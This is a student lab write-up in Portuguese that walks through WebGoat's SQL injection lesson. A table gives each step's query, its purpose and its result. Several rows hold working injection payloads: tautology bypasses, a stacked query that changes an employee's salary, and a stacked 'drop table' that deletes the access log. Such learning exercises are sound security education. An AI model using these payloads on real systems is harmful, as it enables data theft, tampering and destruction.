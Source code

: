 # Pergunta 2 - *Injection*

Todas as imagens e outros ficheiros considerados relevantes para o entendimento complementar da resolução a todas as questões encontram-se listados na secção de [**Notas/Observações Finais**](#notasobservações-finais).

1. [**Pergunta  1.1**](#) - ***SQL Injection***
	- Entendimento básico de como o *SQL* é/pode ser usado e para quê
	- Entendimento do que são *SQL Injections* e como funcionam

---

## Resolução da Pergunta 1

### Experiência 1.1 -*SQL Injection*

Através da *lesson* dada pelo WebGoat, conseguimos executar e consequentemente entender como funciona toda uma *SQL Injection*.

<br/>

**Com todo os passos resolvíveis feitos (começando-se no dois, conforma a *lesson* o indica) e compreendidos, detalham-se os mesmos na tabela que se segue:**

| Número do Passo | *Querie* Usada                                               | Funcionalidade                                               | Resultado                                                    |
| --------------- | ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| **Passo 2**     | `select department from employees where userid = 96134`      | Seleciona o departamento do trabalhador cujo id é 96134.     | Marketing.                                                   |
| **Passo 3**     | `update employees set department = 'Sales' where first_name = 'Tobi Barnett'` | Altera o departamento de Toni Barnett para *Sales*.          | O departamento de Toni Barnett é atualizado com sucesso.     |
| **Passo 4**     | `alter table employees add phone varchar(20)`                | Adiciona a coluna *phone* à tabela de *employees*.           | A coluna *phone* é adicionada com sucesso.                   |
| **Passo 5**     | `GRANT ALTER TABLE TO 'UnauthorizedUser'`                    | Fornece permissões  ao *user group* "UnauthorizedUser" de alterar tabelas. | O acesso é concedido com sucesso.                            |
| **Passo 9**     | `SELECT * FROM user_data WHERE first_name = 'John' and last_name = '' or '1' = '1'` | Cria uma consulta dinâmica através da concatenação de *strings*, tornando-a suscetível a uma *SQL Injection*. | A *SQL Injection* funcionará sempre dado que `'1' = '1'` é uma condição sempre verdadeira. Dessa forma, é devolvida todos os dados da `user_data`. |
| **Passo 10**    | `SELECT * From user_data WHERE Login_Count = 1 and userid = 1 or 1 = 1` | Cria uma consulta dinâmica através da concatenação de *strings*, tornando-a suscetível a uma *SQL Injection*. | Dado que o campo `userid` espera receber um número/inteiro, não existem as tais "plicas" à volta deste campo.  Dessa forma ao introduzir-se `1 or 1 = 1`, obtêm-se todos os dados da `user_data`. |
| **Passo 11**    | `' OR '1' = '1` no campo *Authentication TAN*                | Seleciona todos os *employees* que acabam por verificar aquele campo de *Authentication*. | *"You have succeeded!You have successfully compromised the confidentiality of data by viewing internal information that you should not have access to. Well done!"* <br />A informação obtida diz respeito até aos salários dos trabalhadores. |
| **Passo 12**    | `'; update employees set salary = 120000 where auth_tan = '3SL99A` | Altera o valor do salário para o John Smith cujo TAN é 3SL99A. | Com os primeiros caracteres termina-se a *query*.<br />Logo de seguida, encadeia-se uma outra que altera assim o valor do salário com sucesso. |
| **Passo 13**    | `';drop table access_log; select * from access_log where action ='` | Elimina a tabela `acess_log`.                                | *"Success! You successfully deleted the access_log table and that way compromised the availability of the data."*<br />Ou seja, toda a tabela em causa acaba por ser eliminada. |



---

## Notas/Observações Finais

Não existem observações finais para este Trabalho Prático.
